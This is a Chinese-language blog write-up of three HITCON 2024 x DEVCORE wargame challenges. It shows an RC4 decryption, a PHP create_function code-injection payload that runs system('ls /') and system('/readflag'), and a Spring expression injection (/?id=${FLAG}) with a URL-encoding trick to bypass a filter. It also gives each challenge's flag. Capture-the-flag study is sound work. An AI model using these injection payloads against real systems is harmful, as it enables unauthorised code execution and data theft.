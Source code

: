```yaml
---
layout: post
title: "HITCON 2024 x DEVCORE Wargame"
date: 2024-8-12
categories: [writeup]
---
```


# Welcome

![image](/assets/images/HITCON-2024-x-DEVCORE-Wargame/welcome.png)

使用[線上工具](https://www.dcode.fr/rc4-cipher)解密

![image](/assets/images/HITCON-2024-x-DEVCORE-Wargame/welcome-solve.png)

flag: `DEVCORE{h0pe_y0u_enj0y_0ur_wargame}`

# Supercalifragilisticexpialidocious

明顯 `create_function('', $code);` 有洞。

![image](/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious.png)

使用 [exploitDB](https://www.exploit-db.com/exploits/32417) 的 payload

payload: `return -1 * var_dump($a[""]);}phpinfo();/*"]`

成功看到 `phpinfo()`。

![image](/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious-phpinfo.png)

payload: `return -1 * var_dump($a[""]);}system('ls /');/*"]`

發現 `/readflag`。

![image](/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious-ls.png)

payload: `return -1 * var_dump($a[""]);}system('/readflag');/*"]`

執行成功取得 flag。

![image](/assets/images/HITCON-2024-x-DEVCORE-Wargame/Supercalifragilisticexpialidocious-readflag.png)

flag: `DEVCORE{o1d_th1ng_1s_g00d}`

# Expressionism

在 `IndexController.java` 看到 `FLAG` 被放在 session。

```java
session.setAttribute("FLAG", System.getenv("FLAG"));
```

`index.jsp` 中有可以 injection 的地方。

```jsp
<p><spring:message code="life.quotes.${id}" /></p>
```

在 [Hack tricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java) 找到可用 `${}` injection。

payload: `/?id=${FLAG}`

送出後發現有違法字元。

![image](/assets/images/HITCON-2024-x-DEVCORE-Wargame/Expressionism-payload.png)

payload: `/?id=%24%7BFLAG%7D`

把 payload 做 url encoding 後再試一次，成功取得 flag。

![image](/assets/images/HITCON-2024-x-DEVCORE-Wargame/Expressionism-success.png)

flag: `DEVCORE{d1d_y0u_kn0w_th1s_b3f0r3}`